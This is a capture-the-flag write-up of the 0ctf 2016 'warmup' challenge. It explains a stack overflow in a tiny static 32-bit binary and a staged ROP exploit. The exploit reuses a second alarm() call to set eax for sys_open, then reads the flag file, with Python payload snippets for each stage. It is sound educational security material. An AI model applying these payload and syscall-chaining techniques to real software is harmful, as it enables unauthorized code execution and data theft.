 +++
title = "0ctf 2016 - Warmup write-up"
author = "hugsy"
date = 2016-03-14T00:00:00Z
updated = 2016-03-14T00:00:00Z

[taxonomies]
tags = ["pwn", "gef", "ida", "0ctf-2016", "x86"]
categories = ["ctf"]
+++

I participated to [0ctf](https://ctftime.org/team/4419/) but only had time to play for
the reversing challenge `trace` (write-up coming up soon) during the competition
time.

I did this challenge only for fun after the CTF was over so I do not know the
flag, and since I found it interesting, I decided to write a quick write-up.

And kudos to all teams who solved it !


### Info ###


```bash
gef➤  !file ./warmup
./warmup: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, BuildID[sha1]=c1791030f336fcc9cda1da8dc3a3f8a70d930a11, stripped
gef➤  checksec warmup
[+] checksec for 'warmup'
Canary:                                           No
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    No
Full RelRO:                                       No
```

Pretty stripped down file, very small (which seemed weird for a statically
linked file). Stack canary and PIE are not on, but NX is.


### Vulnerability ###

The binary is really small, does not do much either, so the vulnerability is
quite easy to find and trigger.

![vuln](https://i.imgur.com/jpU2YsD.png)

At 0x08048174, We have a `read(socket, buffer, 52)` where buffer can only
contain 32 bytes, so we have a classic stack overflow. A part of the challenge
is however due to the fact that our controlled part is quite limited
(i.e. 52-32=20 bytes=5 DWORD).



### Exploitation ###

In addition to not having a lot of gadgets (the source was written in pure
assembly), no libc, etc. 0ctf organizers added that

```txt
notice: This service is protected by a sandbox, you can only read the flag at /home/warmup/flag
```

Meaning: we cannot simply write `/bin/sh` somewhere in memory, set `eax` to 11
and simply use a gadget to set `ebx`, `ecx`, `edx` to value loaded from the
stack. We have to go all the way to open, read, write back the value of the flag
located in `/home/warmup/flag`.

This lead to a much funkier way to exploit.


#### Objective ####

The objective here seems pretty straight forward. We need to :

   1. Write `/tmp/flag` in a predictable and writable location ( anywhere in the
   `.data` section will do just fine).
   1. Forge a `sys_open(flag, RWX)` gadget
   1. Forge a `sys_read(fd, another_writeable_location, 50)` gadget
   1. Forge a `sys_write(socket, another_writeable_location, 50)`

And it is done! In theory it seems pretty easy, but it took me a few hours
(never underestimate a challenge ☺).


#### Interesting gadgets ####

What the binary provides us with are gadgets to read and write:
```bash
--read
.text:0804811D                 mov     eax, 3
.text:08048122                 mov     ebx, [esp+fd]   ; fd
.text:08048126                 mov     ecx, [esp+addr] ; addr
.text:0804812A                 mov     edx, [esp+len]  ; len
.text:0804812E                 int     80h             ; LINUX - sys_read

--write
.text:08048135                 mov     eax, 4
.text:0804813A                 mov     ebx, [esp+fd]   ; fd
.text:0804813E                 mov     ecx, [esp+addr] ; addr
.text:08048142                 mov     edx, [esp+len]  ; len
.text:08048146                 int     80h             ; LINUX - sys_write
```

Where the arguments are read from the limited stack we control.

However, we do not have an `sys_open` gadget, but since we can control `ebx`
from the stack, all we need is to find a way to set `eax` to
[5](https://raw.githubusercontent.com/torvalds/linux/master/arch/x86/entry/syscalls/syscall_32.tbl)

My original intention was to force a call to `sys_read` from our socket, and
send 5 bytes of junk data so that the syscall can return with the right value in
`eax`. Unfortunately, we do not have enough space in our stack to chain correctly our
`read` arguments, then jump into it and finally jump back to our next gadget ☹ .

After quite some time, I realized that `warmup` starts by initializing an alarm
for 10 seconds (which when `SIGALRM` is received, will kill the
program).
```bash
.text:0804810D                 mov     eax, 27
.text:08048112                 mov     ebx, [esp+seconds] ; seconds
.text:08048116                 int     80h             ; LINUX - sys_alarm
```

Nevertheless, this could be valuable to us, because RTFM:

>
>       alarm()  returns  the number of seconds remaining until any previously
>       scheduled alarm was due to be delivered, or zero if there was no
>       previously scheduled alarm.
>

That means that if we jump a second time into the gadget @0x0804810D (i.e. call
`alarm()` a second time), `eax` will be populated with whatever time is left
before SIGALRM is issued!
And since `alarm()` can take any integer as argument, our syscall will not
return as an error! So by sleeping 5 seconds, `sys_alarm` will return with `eax`
set to `NR_sys_open` (5), and we can use the stack to populate the other
registers required for `sys_open`!


#### Attack ####

Again, because of our limited space in the stack, we need to trigger the
vulnerability multiple times. To do, we have to perform only one operation, then
return to the original function (`0x0804815A`), and let the control flow repeat
again until it re-hit our vulnerability.

So let's go back to the steps we set in the *Objective* part for the
exploitation part:

Writing `/tmp/flag` in a predictable and writable location can be done with the
following gadgets:
```python
    p = "A"*32
    p+= i_s(sys_read)
    p+= i_s(ret_to_orginal_function) # ret back to vuln function
    p+= i_s(0) # fd
    p+= i_s(writable_addr) # addr
    p+= i_s(len(flag_path)) # len
    s.write(p)
    s.read_until("Good Luck!\n")
```

Now we have to sleep !! ☺
```python
    time.sleep(5)
```

Now we can send our second payload, to call `alarm`, setting `eax` to
`NR_sys_open`, and append the other arguments:
```python
    p = "A"*32
    p+= i_s(sys_alarm)
    p+= i_s(set_ebx_ecx_edx_int80)
    p+= i_s(ret_to_orginal_function)
    p+= i_s(writable_addr)
    p+= i_s(7) # READ|WRITE|EXECUTE
    s.write(p)
    s.read_until("Good Luck!\n")
```

We have now a file descriptor open to our flag file! Let's read its content:
```python
    p = "A"*32
    p+= i_s(sys_read)
    p+= i_s(ret_to_orginal_function)
    p+= i_s(5) # file_fd
    p+= i_s(writable_addr2)
    p+= i_s(20)
    s.write(p)
    s.read_until("Good Luck!\n")
```

... And write it back to our socket (and exit cleanly, just because):
```python
    p = "A"*32
    p+= i_s(sys_write)
    p+= i_s(sys_exit)
    p+= i_s(1) # fd stdout
    p+= i_s(writable_addr2)
    p+= i_s(20)
    s.write(p)
```

This write-up does not give justice to the challenge, making it look easy. But
it was not. I really like how you are made to create really inventive and neat
technique for subverting existing calls to set up the structure the exact way
you want it.

For those who want, the full exploit script is
[here](https://gist.github.com/hugsy/8e31ddc61dba7d4e7c1f). But again, it was
not tested against the game server.

Another good lesson to pay attention to details...
